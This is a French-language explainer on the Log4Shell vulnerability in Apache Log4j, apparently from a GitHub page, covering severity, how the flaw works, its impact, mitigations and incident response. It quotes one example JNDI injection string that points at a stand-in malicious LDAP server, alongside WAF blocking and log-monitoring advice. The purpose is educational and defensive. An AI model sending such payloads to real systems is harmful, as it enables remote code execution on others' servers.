 ### **Log4Shell : Une Vulnérabilité Critique**

---

### **📜 Qu’est-ce que Log4Shell ?**
Log4Shell (CVE-2021-44228) est une vulnérabilité critique découverte en décembre 2021 dans **Apache Log4j**, une bibliothèque de journalisation Java très utilisée dans de nombreuses applications et services. 

---

### **🚨 Gravité de Log4Shell**
- **Score CVSS** : 10/10 (critique).
- **Impact** :
  - Permet l'exécution de code à distance (RCE).
  - Potentiellement exploitable sans authentification préalable.
- **Étendue** :
  - Affecte des milliers d'applications qui utilisent Log4j pour la journalisation.

---

### **🔍 Fonctionnement de Log4Shell**

#### 1. **Origine de la vulnérabilité** :
- **Log4j** permet de résoudre des chaînes dynamiques dans ses journaux grâce à une fonctionnalité appelée **Lookups** (ex. : `${jndi:...}`).
- La vulnérabilité réside dans la **fonction JNDI (Java Naming and Directory Interface)**, qui permet de charger des ressources externes.

#### 2. **Exploitation** :
- Un attaquant envoie une chaîne malveillante exploitant JNDI via des requêtes HTTP, des paramètres d'utilisateur ou d'autres entrées.
- Exemple de charge utile :
  ```
  ${jndi:ldap://malicious-server/exploit}
  ```
- Log4j interprète cette chaîne et télécharge un fichier malveillant, permettant l’exécution de code à distance sur le serveur.

---

### **🌍 Impact Global**

- **Logiciels affectés** :
  - Serveurs web (Apache, Nginx).
  - Applications utilisant Java.
  - Plateformes cloud et services populaires.
- **Exemples d’incidents** :
  - Exploitation de Minecraft servers.
  - Cyberattaques ciblant des entreprises et gouvernements.
- **Vagues d’attaques** :
  - Botnets.
  - Minage de cryptomonnaies (cryptojacking).
  - Espionnage et prise de contrôle des systèmes.

---

### **🛡️ Mesures de Protection Contre Log4Shell**

#### 1. **Mises à jour immédiates** :
   - Mettre à jour Log4j vers une version corrigée :
     - **Version >= 2.16.0** (supprime JNDI par défaut).
     - **Version >= 2.17.0** (correctifs supplémentaires).

#### 2. **Désactivation de JNDI** :
   - Si une mise à jour n’est pas possible, désactiver JNDI :
     ```java
     log4j2.formatMsgNoLookups=true
     ```
   - Supprimer la classe JndiLookup du fichier Log4j :
     ```bash
     zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
     ```

#### 3. **Mise en œuvre de pare-feu applicatifs (WAF)** :
   - Bloquer les requêtes suspectes contenant `${jndi:...}`.

#### 4. **Surveillance des journaux** :
   - Rechercher des traces d'exploitation en analysant les journaux pour détecter des chaînes malveillantes.

#### 5. **Segmentation des systèmes** :
   - Minimiser l'impact des attaques en isolant les systèmes critiques.

---

### **🔧 Étapes pour Réagir à une Exploitation**

1. **Identifier les systèmes vulnérables** :
   - Scanner les applications et serveurs utilisant Log4j.
   - Outils comme **Lunasec**, **Checkmarx**, ou des scripts dédiés.

2. **Évaluer les impacts** :
   - Identifier les preuves d’exploitations (journaux, connexions réseau).
   - Vérifier si des charges malveillantes ont été exécutées.

3. **Corriger et protéger** :
   - Mettre à jour Log4j ou appliquer des solutions de contournement.
   - Patcher les systèmes immédiatement.

4. **Communiquer** :
   - Informer les parties prenantes (internes et clients) si des données sensibles ont été compromises.

---

### **📖 Leçons tirées de Log4Shell**

1. **Importance des mises à jour** :
   - Adopter une politique proactive pour maintenir à jour les bibliothèques et dépendances.
   
2. **Gestion des dépendances** :
   - Utiliser des outils pour inventorier et suivre les dépendances dans vos applications (ex. : **Dependabot**, **Snyk**).

3. **Surveillance continue** :
   - Mettre en place des outils de détection des vulnérabilités et surveiller les journaux en temps réel.

4. **Réduction de la surface d’attaque** :
   - Désactiver les fonctionnalités non nécessaires (comme JNDI dans Log4j).

---

### **🚀 Conclusion**

Log4Shell a mis en évidence les risques associés aux dépendances logicielles et aux failles critiques dans les composants utilisés globalement. En adoptant des stratégies de **gestion des vulnérabilités** et en renforçant les pratiques de développement, les entreprises peuvent mieux se protéger contre de futures attaques similaires.
